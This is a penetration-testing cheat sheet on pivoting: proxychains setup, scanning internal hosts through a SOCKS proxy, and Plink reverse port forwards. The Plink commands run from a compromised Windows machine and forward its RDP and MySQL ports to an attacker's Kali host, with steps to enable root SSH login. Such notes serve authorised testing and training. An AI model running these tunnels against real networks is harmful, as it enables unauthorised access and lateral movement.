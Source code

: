 ```bash
cat /etc/proxychains.conf

#        Examples:
#
#            	socks5	192.168.67.78	1080	lamer	secret
#		http	192.168.89.3	8080	justu	hidden
#	 	socks4	192.168.1.49	1080
#	        http	192.168.39.93	8080	
#		
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
socks5	127.0.0.1 1080		password

# THEN
proxychains (nmap for example) $IP

# We will conduct a connect scan with the -sT flag. 
# SOCKS proxies require a TCP connection to be made and thus a half-open or 
# SYN scan cannot be used with ProxyChains. Since SOCKS proxies require 
# a TCP connection, ICMP cannot get through either and we must disable pinging
# with the - Pn flag.
proxychains nmap --top-ports=20 -sT -Pn $INTERNAL_IP

# Proxychains double pivoting 
https://theyhack.me/Proxychains-Double-Pivoting/
https://ryanwendel.medium.com/forwarding-reverse-shells-through-a-jump-box-using-ssh-7111f1d55e3a
```

## Plink (Windows)

{% code overflow="wrap" %}
```bash
# Remote pfwd
C:\> plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:8788:127.0.0.1:3389 $KALI_IP # 8788 listening port, 3389 is the target port of the compromised machine which runs this command
# If Windows shell is very limited for plink usage, try this
cmd.exe /c echo y | plink.exe -ssh ...
# Now we have access to RDP port 3389 from Kali
kali@kali xfreerdp /u:$USER /p:$PASS /v:127.0.0.1:8788



# - Change root password --> passwd root --> type hola for example
service ssh start
# - Enable root login --> nano /etc/ssh/sshd_config --> PermitRootLogin yes
service ssh restart
# - Transfer first plink to the Windows machine
netstat -anpb TCP #check internal TCP ports
# remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306) 
cmd.exe /c echo y | plink.exe -ssh -l kali -pw hola123 -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
# - UNDO PermitRootLogin

```